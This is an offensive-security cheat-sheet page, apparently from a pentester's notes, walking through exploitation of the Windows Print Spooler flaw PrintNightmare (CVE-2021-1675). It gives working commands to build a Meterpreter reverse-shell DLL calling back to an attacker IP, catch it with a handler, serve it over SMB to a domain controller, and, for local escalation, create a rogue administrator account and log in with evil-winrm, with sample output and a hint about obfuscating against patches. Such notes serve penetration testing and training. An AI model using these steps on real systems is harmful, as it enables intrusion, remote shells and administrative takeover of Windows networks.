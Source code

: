 # PrintNightmare

## PrintNightmare (CVE-2021-1675) - RCE

- Takes advantage of printer spooler that runs as sys priv
- Check if our target is vulnerable `rpcdump.py @DOMAIN-CONTROLLER-IP | egrep 'MS-RPRN|MS-PAR'`
- Create a malicious dll to run it along the py file from the resource `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKING-MACHINE-IP LPORT=4444 -f dll > shell.dll` 
  ```
  ┌──(root💀kali)-[/home/kali]
  └─# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.2.8 LPORT=4444 -f dll > shell.dll                                                                                                           2 ⨯
  [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
  [-] No arch selected, selecting arch: x64 from the payload
  No encoder specified, outputting raw payload
  Payload size: 510 bytes
  Final size of dll file: 8704 bytes
  ```
- run `msfconsole` to catch the shell `use multi/handler` `set payload windows/x64/meterpreter/reverse_tcp` set LHOST and LPORT
- setup a file share with smbserver.py (Impacket): `smbserver.py share 'pwd' -smb2support` (will share current working dir)
- Run the exploit `python3 exploit.py domain.local/username:password@DOMAIN-CONTROLLER-IP-ADD '\\ATTACKING-MACHINE-IP\share\shell.dll'`
- We should get a shell

*Note: With patches it might be necessary to use obfuscations techniques*

## PrintNightmare - LPE

- Create an user admin from the compromised machine:
```
*Evil-WinRM* PS C:\Users\user\Documents> Import-Module .\CVE-2021-1675.ps1
[STRIPPED]
*Evil-WinRM* PS C:\Users\user\Documents> Invoke-Nightmare -NewUser "adminhackr" -NewPassword "adminhackr1!" -DriverName "PrintMe"
[STRIPPED]
[+] created payload at C:\Users\user\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_19a3fe50fa9a21b6\Amd64\mxdwdrv.dll"
[+] added user adminhackr as local administrator
[+] deleting payload from C:\Users\user\AppData\Local\Temp\nightmare.dll
```

- We launch evilwinrm with this new user and we have an admin shell:
```
┌──(kali㉿kali)-[~]
└─$ proxychains evil-winrm -i 172.16.2.5 -u adminhackr -p adminhackr1!                                                                                                                               76 ⨯
[STRIPPED]
Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

[proxychains] Dynamic chain  ...  127.0.0.1:1080  ...  172.16.2.5:5985  ...  OK
*Evil-WinRM* PS C:\Users\adminhackr\Documents> 
```

### PrintNightmare - Resources

{% embed url="https://github.com/cube0x0/CVE-2021-1675" %} cube0x0 RCE {% endembed %}
{% embed url="https://github.com/calebstewart/CVE-2021-1675" %} calebstewart LPE {% endembed %}
{% embed url="https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html#target" %} Playing with PrintNightmare - 0xdf hacks stuff {% endembed %}
{% embed url="https://themayor.notion.site/d7a4f698bd2d453cbb55a60c6458542e?v=ec41d2f3c44743949e47237c03e82b1b&p=136a31bb0933493d852f3b9d38e8544f" %} PrintNightmare - TheMayor Pentesting notes {% endembed %}
